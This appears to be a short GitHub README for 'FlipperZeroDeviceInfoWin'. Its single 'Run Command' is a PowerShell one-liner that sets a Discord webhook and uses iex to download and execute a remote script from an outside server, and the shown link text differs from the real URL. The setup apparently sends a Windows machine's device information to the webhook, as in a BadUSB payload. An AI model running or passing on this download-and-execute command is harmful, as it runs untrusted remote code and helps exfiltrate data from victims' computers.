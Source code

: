 # FlipperZeroDeviceInfoWin

## Run Command

powershell -Command "$discord='<your_webhook_here>'; iex (New-Object Net.WebClient).DownloadString('[http://yourserver.com/device_info.ps1](https://link.wmlsandaruwan.online/FlipperZeroDeviceInfoWin)')"
